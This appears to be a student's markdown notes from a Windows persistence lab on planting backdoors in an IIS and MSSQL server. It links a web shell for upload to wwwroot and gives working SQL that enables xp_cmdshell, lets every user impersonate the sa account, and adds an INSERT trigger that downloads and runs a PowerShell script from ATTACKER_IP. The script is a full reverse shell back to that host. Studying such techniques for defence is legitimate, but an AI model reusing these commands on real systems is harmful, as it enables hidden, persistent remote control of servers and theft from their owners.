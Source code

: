 #cybersecurity #windows 

Planting backdoor in a typical web server setup.

### Using Web Shells
Uploading a web shell to the web directory
We can use the privileges of the configured user in IIS
`iis apppool\defaultapppool`: it has the special `SeImpersonatePrivilege`

Let's download ASP.NET web shell 
https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx

Transfer it to the victim into 
`C:\inetupub\wwwroot`

`http://MACHINE_IP/shell.aspx`

### Using MSSQL as a backdoor
We use **triggers** to INSERT into `HRDB` database

We need to configure some things before
First we need to enable `xp_cmdshell`, it's a default stored procedure that allows to run commands directly in the system console

In `Microsoft SQL Server Management Studio`

```SQL
sp_configure 'Show Advanced Options',1;
RECONFIGURE;
GO

sp_configure 'xp_cmdshell',1;
RECONFIGURE;
GO
```

We can grant privileges to all users to impersonate `sa`, the default database administrator

```sql
USE master

GRANT IMPERSONATE ON LOGIN::sa to [Public];
```

After this we can configure the trigger

```sql
USE HRDB

CREATE TRIGGER [sql_backdoor]
ON HRDB.dbo.Employees 
FOR INSERT AS

EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://ATTACKER_IP:8000/evilscript.ps1'')"';
```

Now we can create the evil script

```powershell
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP",4454);

$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};

$client.Close()
```

We run a python web server to handle the download of the file and a nc listener to reverse connect to the target machine

